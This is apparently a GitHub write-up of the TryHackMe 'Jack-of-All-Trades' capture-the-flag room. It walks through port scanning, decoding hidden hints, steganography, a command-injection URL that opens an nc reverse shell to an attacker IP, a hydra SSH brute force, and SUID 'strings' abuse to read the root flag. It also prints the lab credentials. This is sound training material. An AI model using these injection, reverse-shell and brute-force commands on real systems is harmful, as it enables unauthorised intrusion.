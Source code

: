 # [Jack-of-All-Trades](https://tryhackme.com/room/jackofalltrades)

## Boot-to-root originally designed for Securi-Tay 2020

# Flags

## Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

### User Flag

1. Scan all ports with nmap to identify running services

```bash
nmap -sV IP
```

![SCREEN01](https://github.com/user-attachments/assets/b0f4af15-afa3-4aef-a599-c5a96a5b8ea0)

2. Configure Firefox to access HTTP service on port 22
   - Navigate to `about:config` and set `network.security.ports.banned.override` to **22** as **string**

![SCREEN02](https://github.com/user-attachments/assets/73675b28-554d-44a7-81f6-183c4bdee304)

3. Analyze the main page source code at `http://<IP>:22/`

   - Reference to `/recovery.php` endpoint
   - Base64 encoded string containing password
   - Decode the string in [CyberChef](https://gchq.github.io/CyberChef/)
   - **Password:** `u?WtKSraq`

4. Examine `http://<IP>:22/recovery.php` source code

   - Decode the string in [CyberChef](https://gchq.github.io/CyberChef/): From Base32 -> From Hex -> ROT13
   - Link to wikipedia page `bit.ly/2TvYQ2S`

5. Download images from `http://<IP>:22/` and analyze with steghide
   - **Extracted credentials:** `jackinthebox:TplFxiSHjY`

```bash
steghide extract -sf header.jpg
# Password: u?WtKSraq
```

6. Start netcat listener, log in to the `http://IP/recovery.php` and add `?cmd=nc -c bash 10.10.123.224 4444` at the end of the url

```bash
nc -lvnp 4444
```

![SCREEN03](https://github.com/user-attachments/assets/a557b073-2370-44fb-a39b-836c76d7df85)

7. Establish stable shell, locate password list and save it to a file

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
cd /home
cat jacks_password_list
```

![SCREEN04](https://github.com/user-attachments/assets/be1974a9-bc99-47bf-865e-2c3ee8207a74)

8. Attack SSH service running on port 80
   - The credentials are: **jack:ITMJpGGIqg1jn?>@**

```bash
hydra -l jack -P passwords.txt ssh://IP:80
```

![SCREEN05](https://github.com/user-attachments/assets/052ab064-a64a-447f-ba7c-f43cddffe2f7)

9. Log in as jack, download the image, and get the user flag from it

```bash
ssh -p 80 jack@IP
# Password: ITMJpGGIqg1jn?>@

```

```bash
scp -P 80 jack@IP:/home/jack/user.jpg /root/user.jpg
# Password: ITMJpGGIqg1jn?>@
```

![SCREEN06](https://github.com/user-attachments/assets/b0380548-8ef8-474e-a6e4-b33af54bfeb3)

---

### Root Flag

1. Find SUID binaries to identify privilege escalation vectors

```bash
find / -perm -u=s -type f 2>/dev/null
```

![SCREEN07](https://github.com/user-attachments/assets/d851d00c-a9cb-4734-997c-580ca5501643)

2. Exploit the SUID `strings` binary to read the root flag

```bash
strings /root/root.txt
```

![SCREEN08](https://github.com/user-attachments/assets/da2c8af4-419d-4a8a-a637-1a1b8df06e54)
